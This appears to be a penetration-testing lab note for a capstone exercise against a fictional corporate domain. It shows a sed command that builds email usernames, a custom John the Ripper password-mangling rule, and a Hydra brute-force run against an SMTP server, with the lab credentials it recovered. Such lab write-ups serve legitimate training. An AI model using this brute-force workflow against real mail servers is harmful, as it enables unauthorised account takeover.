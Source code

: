 
### Domain
Add domain to end of every [[Website content#Create a file with the names (users.txt)]]
```
sed -i 's/$/@corp.thereserve.loc/' users.txt
```

### Custom rules
- Add the following to the bottom of john.conf.
```
	#Custom Rules

	[List.Rules:Capstone]

	Az"[0-9]" $[!@#%^]
```

- Run the following command to create a mangled passwords file.
```
	john --wordlist=password_base_list.txt --rules=Capstone --stdout > mangled-passwords.txt

```

### HYDRA
Getting some email's credentials .
```
hydra -L users.txt -P mangled-passwords.txt smtp://10.200.103.11 -V -o smtp-results.txt

cat smtp-results.txt
```
[25][smtp] host: 10.200.103.11   
login: laura.wood@corp.thereserve.loc   
password: Password1@

[25][smtp] host: 10.200.103.11   
login: mohammad.ahmed@corp.thereserve.loc   
password: Password1!
